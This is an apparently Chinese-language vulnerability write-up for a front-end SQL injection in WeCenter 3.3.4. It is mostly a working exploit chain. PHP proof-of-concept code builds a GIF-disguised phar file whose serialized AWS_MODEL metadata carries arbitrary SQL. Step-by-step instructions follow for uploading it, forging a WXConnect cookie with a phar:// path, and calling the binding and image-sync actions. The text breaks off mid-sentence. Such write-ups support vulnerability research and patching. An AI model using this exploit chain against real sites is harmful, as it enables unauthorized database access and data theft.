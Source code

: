 WeCenter 3.3.4 前台sql注入
==========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 任意sql语句执行

**system/aws\_model.inc.php:\_\_destruct()** 方法中存在任意 **SQL**
语句执行。

![](./resource/WeCenter3.3.4前台sql注入/media/rId25.png)

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('select updatexml(1,concat(0x3a,md5(233),0x3a),1)');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。

![](./resource/WeCenter3.3.4前台sql注入/media/rId28.png)

记录下上传后的目录

![](./resource/WeCenter3.3.4前台sql注入/media/rId29.png)

#### 生成并设置`COOKIE`中的`WXConnect`值

    <?php
        $arr = array();
        $arr['access_token'] = array('openid' => '1');
        $arr['access_user'] = array();
        $arr['access_user']['openid'] = 1;
        $arr['access_user']['nickname'] = 'naiquan';
        $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
        echo json_encode($arr);
    ?>

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`

![](./resource/WeCenter3.3.4前台sql注入/media/rId32.png)

提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`

![](./resource/WeCenter3.3.4前台sql注入/media/rId34.png)

任意
